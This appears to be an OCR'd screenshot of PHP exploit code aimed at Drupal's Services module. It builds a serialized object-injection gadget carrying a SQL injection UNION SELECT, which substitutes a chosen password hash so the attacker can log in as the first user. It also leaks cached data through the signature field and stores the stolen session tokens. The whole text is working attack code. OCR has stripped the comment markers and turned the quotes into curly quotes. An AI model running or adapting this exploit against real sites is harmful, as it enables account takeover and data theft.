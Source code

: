     protected $queryPlaceholderIdentifier = null;
    public $stringVersion = null;
    public function __construct($stringVersion=null)
    {
    $this->stringVersion = $stringVersion;
    if(!isset($stringVersion))
    {
    $this->changed = true;
    $this->stringVersion = null;
    }
    }
    }
    class SelectQueryExtender {
    Contains a DatabaseCondition object instead of a SelectQueryInterface
    so that $query->compile() exists and (string) $query is controlled by us.
    protected $query = null;
    protected $uniqueIdentifier = QID;
    protected $connection;
    protected $placeholder = 0;
    public function __construct($sql)
    {
    $this->query = new DatabaseCondition($sql);
    }
    }
    $cache_id = “services:$endpoint:resources”;
    $sql_cache = “SELECT data FROM {cache} WHERE cid=’$cache_id’”;
    $password_hash = ‘$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd’;
    Take first user but with a custom password
    Store the original password hash in signature_format, and endpoint cache
    in signature
    $query =
    “0x3a) UNION SELECT ux.uid AS uid, “ .
    “ux.name AS name, ‘$password_hash’ AS pass, “ .
    “ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, “ .
    “ux.pass AS signature_format, ux.created AS created, “ .
    “ux.access AS access, ux.login AS login, ux.status AS status, “ .
    “ux.timezone AS timezone, ux.language AS language, ux.picture “ .
    “AS picture, ux.init AS init, ux.data AS data FROM {users} ux “ .
    “WHERE ux.uid<>(0”
    ;
    $query = new SelectQueryExtender($query);
    $data = [‘username’ => $query, ‘password’ => ‘ouvreboite’];
    $data = serialize($data);
    $json = $browser->post(TYPE_PHP, $data);
    If this worked, the rest will as well
    if(!isset($json->user))
    {
    print_r($json);
    e(“Failed to login with fake password”);
    }
    Store session and user data
    $session = [
    ‘session_name’ => $json->session_name,
    ‘session_id’ => $json->sessid,
    ‘token’ => $json->token
    ];
    store(‘session’, $session);
    $user = $json->user;
    Unserialize the cached value
    Note: Drupal websites admins, this is your opportunity to fight back :)
    $cache = unserialize($user->signature);
    Reassign fields
    $user->pass = $user->signature_format;
    unset($user->signature);